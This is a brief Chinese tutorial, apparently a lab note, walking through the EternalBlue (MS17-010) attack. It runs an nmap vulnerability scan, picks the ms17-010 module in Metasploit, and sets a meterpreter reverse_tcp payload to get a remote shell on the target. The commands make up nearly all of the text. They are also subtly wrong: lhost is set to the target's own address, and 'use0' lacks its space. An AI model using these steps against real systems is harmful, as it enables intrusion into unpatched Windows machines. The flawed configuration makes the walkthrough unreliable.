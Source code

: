 # 永恒之蓝（ms17-010）

先nmap扫描

扫描靶机漏洞

 nmap --script=vuln 192.168.1.13

![img](images/image-xin.png)

msfconsole

搜索渗透测试框架里面有关ms17-010的有关模块

 search ms17-010

使用攻击模块

use0

set payload windows/x64/meterpreter/reverse_tcp

set lhost 192.168.1.13

run